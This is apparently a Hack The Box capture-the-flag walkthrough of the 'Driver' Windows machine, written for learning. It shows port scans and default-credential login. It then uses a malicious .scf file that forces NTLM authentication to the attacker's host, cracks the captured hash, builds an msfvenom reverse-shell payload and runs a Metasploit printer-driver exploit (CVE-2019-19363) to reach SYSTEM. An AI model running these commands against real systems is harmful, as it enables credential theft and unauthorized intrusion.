



<div align="center"> <script src="https://www.hackthebox.eu/badge/1670709"></script> </div>

---

Driver is an easy Windows machine that focuses on printer exploitation. Enumeration of the machine reveals that a web server is listening on port 80, along with SMB on port 445 and WinRM on port 5985. Navigation to the website reveals that it&amp;amp;amp;#039;s protected using basic HTTP authentication. While trying common credentials the `admin:admin` credential is accepted and we are able to visit the webpage. The webpage provides a feature to upload printer firmwares on an SMB share for a remote team to test and verify. Uploading a Shell Command File that contains a command to fetch a remote file from our local machine, leads to the NTLM hash of the user `tony` relayed back to us. Cracking the captured hash to retrieve a plaintext password we are able login as `tony`, using WinRM. Then, switching over to a meterpreter session it is discovered that the machine is vulnerable to a local privilege exploit that abuses a specific printer driver that is present on the remote machine. Using the exploit we can get a session as `NT AUTHORITY\SYSTEM`.

# Port Scan

```sh

nmap --min-rate 10000 -Pn -p- 10.129.155.168
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 11:53 EAT
Nmap scan report for 10.129.155.168
Host is up (0.42s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
7680/tcp open  pando-pub

Nmap done: 1 IP address (1 host up) scanned in 15.63 seconds


nmap --min-rate 10000 -Pn -sU -p- 10.129.155.168
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 11:54 EAT
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 93.07% done; ETC: 11:54 (0:00:01 remaining)
Nmap scan report for 10.129.155.168
Host is up.
All 65535 scanned ports on 10.129.155.168 are in ignored states.
Not shown: 65535 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 14.93 seconds

```

```sh
nmap -Pn -sC -sV -p80,135,445,5985,7680 10.129.155.168 -o nmap 

PORT     STATE    SERVICE      VERSION
80/tcp   open     http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open     msrpc        Microsoft Windows RPC
445/tcp  open     microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp filtered pando-pub
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-05-01T15:56:06
|_  start_date: 2025-05-01T15:51:14

```

From the scan we conclude we are working with a windows OS .  
The machine has 5 open ports :  

		- port 80 running a web server
		- port 445 has smb server
		- port 135 has the Microsoft Remote Procedure Call (RPC) service
		- port 5985 Windows Remote Management (WinRM)
		- port 760 is used by WUDO (Windows Update Delivery Optimization)

# web(80)
## Enumeration
Visiting the site we get  


Here we try some common credentials and funny enough we get to log in with `admin:admin`


We do get the email format `support@driver.htb`  will also add `driver.htb` to our `/etc/hosts`  
The tabs are static other than the `Firmware update` that displays the page :

The text :  
`Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.`

## Exploitation
The file we upload will go to a share that can be accessed by the test team  and we can upload a `csf` file with a link pointing back to our machine that will be listening to incoming connections using `responder`  and when windows does the one time auth we can grab the `NetNTLMv2` and try cracking it.
-  https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.scf

```
[Shell]
Command=2
IconFile=\\10.10.16.11\shares\hash.ico
[Taskbar]
Command=ToggleDesktop
```
 Save the file then upload it.
 On responder we get

```sh
sudo responder -I tun0
[SMB] NTLMv2-SSP Client   : 10.129.155.168
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:e09809aff3a03137:371FD97054B8869D04286FB4C9D04847:01010000000000000062115C98BADB01451BF0C3A772916F0000000002000800340052003800500001001E00570049004E002D00360048003700580050004A005200460048004900500004003400570049004E002D00360048003700580050004A00520046004800490050002E0034005200380050002E004C004F00430041004C000300140034005200380050002E004C004F00430041004C000500140034005200380050002E004C004F00430041004C00070008000062115C98BADB0106000400020000000800300030000000000000000000000000200000D61B45C49BE7DF29ACC14B23775B9FC1E640FD8D0720FA5A70F830A1D5E6F63A0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E0031003100000000000000000000000000
[*] Skipping previously captured hash for DRIVER\tony
[*] Skipping previously captured hash for DRIVER\tony
[+] Exiting...
[*] Skipping previously captured hash for DRIVER\tony

```

We now have tony's hash that we can crack using hashcat
```sh
hashcat tonyHash /usr/share/wordlists/rockyou.txt 

hashcat tonyHash --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

5600 | NetNTLMv2 | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

TONY::DRIVER:e09809aff3a03137:371fd97054b8869d04286fb4c9d04847:01010000000000000062115c98badb01451bf0c3a772916f0000000002000800340052003800500001001e00570049004e002d00360048003700580050004a005200460048004900500004003400570049004e002d00360048003700580050004a00520046004800490050002e0034005200380050002e004c004f00430041004c000300140034005200380050002e004c004f00430041004c000500140034005200380050002e004c004f00430041004c00070008000062115c98badb0106000400020000000800300030000000000000000000000000200000d61b45c49be7df29acc14b23775b9fc1e640fd8d0720fa5a70f830a1d5e6f63a0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0031003100000000000000000000000000:liltony


```

Now with tony's hash we can try smb since he's one of the users who can access the shares.
- username : `tony`
- password : `liltony`

```sh
nxc smb 10.129.155.168 -u 'tony' -p 'liltony'
SMB         10.129.155.168  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.155.168  445    DRIVER           [+] DRIVER\tony:liltony 

```

We test if we can get shell using `winrm` 
```sh
nxc winrm 10.129.155.168 -u 'tony' -p 'liltony'
WINRM       10.129.155.168  5985   DRIVER           [*] Windows 10 Build 10240 (name:DRIVER) (domain:DRIVER)

WINRM       10.129.155.168  5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```
The `P3wn3d` tells us we can.

# Privilege Escalation
We get a shell using `winrm` 
```sh
evil-winrm -i 10.129.155.168 -u tony -p liltony
...[snip]...

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> 
```

There is a **PowerShell** history file which shows that a printer was added:
```shell
*Evil-WinRM* PS C:\programdata> type "C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1
*Evil-WinRM* PS C:\programdata> 

```

The printer driver **Ricoh v4.23** has a publicly known Privilege Escalation vulnerability [CVE-2019-19363](https://www.pentagrid.ch/de/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/).

As described in the article, all files in the installation directory can be written by every user:
```shell
icacls "c:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\*.dll"
```

To exploit the vulnerability, I will use **Metasploit** and for that I have to start a **Meterpreter** session.
Creating reverse shell payload with **Msfvenom**:

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.11 LPORT=9001 -f exe -o msf32.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: msf32.exe


```

Starting the listener on **Metasploit**:

```sh
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set LHOST tun0
msf6 exploit(multi/handler) > set LPORT 9001
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > run
```

Executing the payload on the box:

```shell
*Evil-WinRM* PS C:\ProgramData> .\msf32.exe
```

Now a **Meterpreter** session is started and should be migrated to another persistent process:

```
meterpreter > ps
(...)
 4976  652   explorer.exe             x64   1        DRIVER\tony  C:\Windows\explorer.exe


```

```
meterpreter > migrate 4976
[*] Migrating from 2636 to 4976...
[*] Migration completed successfully.

meterpreter > background


```

Exploiting the printer vulnerability:

```
msf6 > use exploit/windows/local/ricoh_driver_privesc

msf6 exploit(windows/local/ricoh_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/ricoh_driver_privesc) > set SESSION 1
msf6 exploit(windows/local/ricoh_driver_privesc) > set LHOST tun0

msf6 exploit(windows/local/ricoh_driver_privesc) > run
```

Listing sessions to check if the exploit worked:

```
msf6 exploit(windows/local/ricoh_driver_privesc) > sessions -l

Active sessions
===============
  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x86/windows  DRIVER\tony @ DRIVER          10.10.14.2:9001 -> 10.10.11.106:49431 (10.10.11.106)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DRIVER  10.10.14.2:4444 -> 10.10.11.106:49432 (10.10.11.106)
```

Interacting with the privileged session:

```
msf6 exploit(windows/local/ricoh_driver_privesc) > sessions -i 2
```

The vulnerability was successfully exploited and started a **Meterpreter** session as the SYSTEM user!
```
meterpreter > shell
Process 4492 created.
Channel 2 created.
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system


```